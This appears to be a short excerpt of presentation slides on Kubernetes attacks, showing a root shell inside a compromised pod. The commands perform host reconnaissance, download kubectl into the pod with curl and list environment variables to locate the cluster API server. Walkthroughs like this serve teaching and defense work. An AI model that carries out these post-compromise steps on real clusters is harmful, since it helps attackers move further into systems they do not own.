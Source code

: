 ### 1. Pod Shell Access
### First Steps

[.code-highlight: none]
[.code-highlight: all]
[.code-highlight: 4-5]
[.code: #ECAF3F]

```python
root@hckd# pwd
/

root@hckd# id        
uid=0(root) gid=0(root) groups=0(root)

root@hckd# uname
Linux

root@hckd# cat /etc/*-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
...
```
---
### 1. Pod Shell Access
### Prepare Workbench

[.code-highlight: none]
[.code-highlight: 1-6]
[.code-highlight: 8-9]
[.code-highlight: 11-15]
[.code: #ECAF3F]

```python
# Install kubectl
root@hckd# K8S_URL=https://storage.googleapis.com/kubernetes-release...        
root@hckd# export PATH=$pwd:$PATH && curl -LO $K8S_URL && chmod 555 kubectl
....
root@hckd# kubectl version
Client Version: version.Info{Major:"1",....

root@hckd# command -v openssl
/usr/bin/openssl

root@hckd# env
  KUBERNETES_SERVICE_PORT_HTTPS=443
  KUBERNETES_PORT_443_TCP=tcp://10.8.0.1:443
  KUBERNETES_PORT_443_TCP_ADDR=10.8.0.1
  KUBERNETES_SERVICE_HOST=10.8.0.1
```

---
